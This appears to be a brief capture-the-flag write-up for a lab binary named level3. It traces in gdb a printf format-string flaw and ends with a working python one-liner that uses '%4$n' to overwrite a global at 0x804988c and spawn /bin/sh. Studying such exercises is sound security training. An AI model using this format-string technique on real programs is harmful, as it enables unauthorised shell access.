 ./level3
>qsdqsdqsdqsd
>qsdqsdqsdqsd

So level3 take a string and print it. By using gdb `b main; run; layout`
We can see the main function only contains a call to `v` function.
`b v; n;` With the layout of gdb we can see that `v` calls `fgets` (man fgets).
Then call `printf`, eax is set the value of some pointer value than it's compared to **0x40** (64). If it's egal `system` will be called with "/bin/sh"

So the return value of `printf` is not stored but a comparaison is being made and we want this comparaison to be true.

https://infosecwriteups.com/exploiting-format-string-vulnerability-97e3d588da1b

We will exploit `printf %n` vulnerability. **0x804988c** is the value we want to change.

Last thing we need to do is locate where **0x804988c** is in the stack order to modify it.

By messing around with the memory:
./level3
>AAAA%p %p %p **%p** %p %p
>AAAA0x200 0xb7fd1ac0 0xb7ff37d0 __0x41414141__ 0x25207025 0x70252070

we can see **0x41414141** in base 16, witch is 65 and according to ascii it's A
So the forth variable is where we will attack.

`(python -c 'print("\x8c\x98\x04\x08" + "a" * 60 + "%4$n")'; cat) | ./level3`

and boom we're in the system (the function haha)